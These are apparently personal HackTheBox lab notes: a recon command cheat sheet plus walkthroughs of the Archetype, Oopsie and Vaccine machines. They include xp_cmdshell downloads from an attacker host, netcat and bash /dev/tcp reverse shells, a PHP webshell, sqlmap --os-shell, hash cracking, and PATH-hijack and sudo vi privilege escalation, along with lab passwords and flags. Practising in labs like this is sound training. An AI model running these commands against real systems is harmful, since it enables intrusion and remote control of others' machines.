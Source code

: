 # HackTheBox

`telnet`

`ftp` `user anonymous`

`smbclient -L`

`smbclient //host/share`



```shell
redis-cli -h <host> -p <port>

info # check Keyspace
select <index>
keys *
get <key> # get value from key in database <index>
```



```shell
nmap

-T4 # 4 Threads
-p- # allports
-min-rate= # limit ports

-sV # Version Detection
-sT # TCP Connect

```



```shell
MariaDB:

mysql -h <host> -u <usename>

show databases
use <dbname>
```



```shell
gobuster

-x # specific filetype

gobuster dir -x .php --url <host> --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

gobuster dir --url http://s3.thetoppers.htb --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```



```shell
aws

aws configure

aws s3 --endpoint=<url> <command> s3://<host>/<file>


```



```
php WebShell

another-ob....php:
GET /shell.php?lol=<command>
```





## ARCHETYPE

```shell
sql_svc password:
M3g4c0rp123

impacket-mssqlclient ARCHETYPE/sql_svc:'M3g4c0rp123'@10.129.234.199 -port 1433 -windows-auth

user flag:
3e7b102e78218e935bf3f4951fec21a3

# setup a server locally, and download nc64/winPEAS to remote machine.
sudo python3 -m http.server 80
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.65/nc64.exe -outfile nc64.exe"
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.65/winPEAS.bat -outfile winPEAS.bat"
# local machine listen to 443
linux> sudo nc -lvnp 443
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.65 443"

impacket-psexec administrator:"MEGACORP_4dm1n\!\!"@10.129.234.199

root flag:
b91ccec3305e98240082d4474b848528
```



## OOPSIE

In burp's sitemap (target tab), we know that `/cdn-cgi/login` is where we login the site.

In `http://{target-ip}/cdn-cgi/login/admin.php?content=accounts&id=1`, we get cookie's ID/role easily.

Then we can upload reverse shell. Use `gobuster` to find where the shell goes.

`gobuster dir --url http://{TARGET_IP}/ --wordlist
/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php`

After a while, we see a suspicious folder called `uploads`, it might be what we want.

```shell
# listening to reverse shell. (modify ip and port in phpshell file)
sudo nc -lvnp 1234
```

open `http://megacorp.com/uploads/php-reverse-shell.php` then `nc` will open a shell for us.

```shell
user flag:
f2c74ee8db7983851ab2a96a44eb7981 # in /home/robert/user.txt

python3 -c 'import pty;pty.spawn("/bin/bash")'

cat /var/www/html/cdn-cgi/login/* | grep -i passw*
cat db.php

robert pw:
M3g4C0rpUs3r! # su robert
admin pw:
MEGACORP_4dm1n!! # useless

sudo -l
id # we know we are in a group "bugtracker"

find / -group bugtracker 2>/dev/null # find binary owned by this group

ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
# from output, we know this is a suid set on the binary.

bugtracker # execute this and input random string, we get an error indicated that it execute `cat`

echo "/bin/sh" > /tmp/cat # /tmp can be access to all user
chmod 777 /tmp/cat
export PATH=/tmp:$PATH # add /tmp to the beginning of PATH, so when executing `cat`, it will always execute `/tmp/cat` instead of `/bin/cat`

whoami # root

cat /root/root.txt
# af13b0bee69f8a877c3faf667f7beacf
```



## VACCINE

```shell
ftp # using anonymous to login
get backup.zip

zip2john backup.zip > ziphash
john ziphash # get zip password

# unzip it and cat php file we get md5-hashed passwd
echo '2cb42f8734ea607eefed3b70af13bbd3' > md5hash
john md5hash --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt
# site login user:admin passwd:qwerty789

# get phpsessid from cookies
sqlmap http://10.129.97.233/dashboard.php\?search\= --os-shell --cookie="PHPSESSID=..."  --threads 4

# nc interactive shell
# local 
sudo nc -lvnp 443
# remote
bash -c "bash -i >& /dev/tcp/{local_ip}/443 0>&1"

user flag:
ec9b13ca4d6229cd5cc1e09980965bf7

cat /var/www/html/dashboard.php
# postgres user password: P@s5w0rd!

sudo -l -S

sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

:set shell=/bin/bash
:shell

root flag:
dd6e058e814260bc70e9bbdef2715849
```



